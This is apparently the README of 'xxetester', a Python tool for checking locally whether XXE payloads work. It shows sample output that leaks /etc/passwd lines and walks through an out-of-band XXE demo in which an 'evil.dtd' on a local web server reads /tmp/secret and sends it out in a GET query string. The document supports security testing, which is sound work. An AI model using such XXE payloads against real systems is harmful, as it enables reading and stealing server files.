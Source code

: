 xxetester
================

According to OWASP Top 10 of 2010, XXE vulnerabilities are one of the most common vulnerabilities in web applications. It is common to test an application for an XXE vulnerability without getting any feedback whether the exploit is successful. Especially with Blind XXEs it cannot be determined with certainty. The question then arises: Is my payload corrupt or the parser of the application actually secure? 

Since there are a lot of XXE articles and payloads on the internet and not every payload really leads to success, a tool had to be developed to test the validity of an XXE exploit.

The script parses the XML files on your system. Please be aware of this. DOS attacks like the billion laughs exploit will affect your own system.

How to use
-------------------------------
The script uses `lxml`. To install it you can execute the following command on your shell.
```
# pip3 install lxml
```

To test a payload the following command can be executed.

```
# python3 xxetester.py samples/catalog.xml 
<CATALOG>
<CD>
[...]
<TITLE>Unchain my heart</TITLE>
<ARTIST>Joe Cocker</ARTIST>
<COUNTRY>USA</COUNTRY>
<COMPANY>EMI</COMPANY>
<PRICE>8.20</PRICE>
<YEAR>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
</YEAR>
</CD>
</CATALOG>
```

## Out-of-band XXE
Blind XXEs in particular are based on the fact that the application does not give the user any output at all. As an attacker you can only see if the application connects to your server. The `samples` folder contains an out-of-bands payload to read files from a system for testing purposes.


We simply execute the following commands to move the `secret` file into the `/tmp/` directory. This file represents the file that an attacker tries to access with the XXE. **Note that with the following payload we can only read files with a single line.** Then we change the directory to `samples`. In this directory is the `evil.dtd` file. This file will be loaded by the `oobxxe.xml` later on. Then we start a webserver on port 8090. 
```
# mv samples/secret /tmp/secret
# cd samples
# python3 -m http.server 8090
```
In a new terminal we execute the following command. 
```
# python3 xxetester.py samples/oobxxe.xml
StartTag: invalid element name, line 1, column 2 (127.0.0.1:8090?collect=1337SECRET1337, line 1)
If you wish more info execute this script with --verbose flag
```
With this command we can test the payload in `oobxxe.xml` which reads the `evil.dtd`. This .dtd file specifies the file that should be read and sent as an argument in a GET request. In our case `/tmp/secret` will be read and sent to our webserver.

Altough the script exits with an exception we see the following output on our webserver.
```
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /evil.dtd HTTP/1.0" 200 -
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /?collect=1337SECRET1337 HTTP/1.0" 200 -
```
With the first request the `evil.dtd` file is accessed. In the second GET request, the collect argument contains the contents of the `/tmp/secret` file.

